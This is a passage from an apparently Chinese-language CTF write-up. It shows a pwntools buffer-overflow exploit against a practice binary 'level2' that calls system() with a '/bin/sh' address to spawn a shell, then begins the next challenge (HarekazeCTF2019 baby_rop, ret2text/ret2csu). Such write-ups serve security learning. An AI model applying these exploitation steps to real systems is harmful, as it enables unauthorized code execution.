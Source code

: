 ```
from pwn import *

p = process('./level2')
e = ELF('./level2')
sh_addr = 0x804A024

payload = b'A'*0x88 + p32(0xdeadbeef) + p32(e.plt['system']) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload)
p.interactive() 
```

运行即可getshell

![image.png](img/3539c0d48e887cefe1bce2a7df095e57.png)

# 0x011.[HarekazeCTF2019]baby_rop - ret2text + ret2csu

惯例的`checksec`，发现只开了栈不可执行保护

![image.png](img/5656b053680f2c85b48abe04e6f04cbc.png)

